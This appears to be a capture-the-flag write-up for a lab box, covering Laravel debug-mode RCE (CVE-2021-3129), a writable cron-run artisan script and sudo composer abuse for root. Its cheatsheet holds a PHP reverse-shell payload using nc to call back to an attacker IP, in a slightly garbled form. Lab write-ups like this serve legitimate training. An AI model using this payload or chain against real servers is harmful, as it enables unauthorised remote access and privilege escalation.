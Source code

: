 # Lavita \[Inter]

## Report

Laravel 8.4.0 is vulnerable to RCE when the 'debug' feature is turned on. Monitoring processes via pspy we see a script running every minute as user 'splunk' called 'artisan' which is editable by 'www-data'. Add a reverse shell payload to become 'splunk'. We can run composer as sudo - GTFOBins to root

### Hint

Does working with such a mid box count as a hint cus my payload was on point if only the stupid thing would work via VPN

## Cheatsheet

{% code title="That PHP payload is deadly" %}
```
Turn DEBUG ON for exploit to work
busybox reverse shell
echo "<?php system('rm /tmp/f;mkfifo /tm&1|nc 192.168.49.51 8001>/tmp/f'); ?>" > artisan
```
{% endcode %}

## Loot

### Enumeration

192.168.57.38

#### 80

Laravel 8.4.0

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption><p>Uploading image after logging in does not seem to do anything, no file in images directory either</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption><p>Toggling debug seems to change a value 'token'</p></figcaption></figure>

In requests with and without debugging, the token is sent but we don't see any difference

### Attack Vectors

{% embed url="https://github.com/joshuavanderpoll/CVE-2021-3129?source=post_page-----12bfd272e9cf---------------------------------------" %}

Turn debug ON before running exploit

### PrivEsc

```
www-data
2025/09/25 10:05:01 CMD: UID=1001 PID=1194 | /usr/bin/php /var/www/html/lavita/artisan clear:pictures
-rw-r--r-- 1 www-data www-data 100 Sep 25 10:14 artisan

skunk
/usr/bin/composer --working-dir=/var/www/html/lavita *
```

### Creds

None

### Proof

None
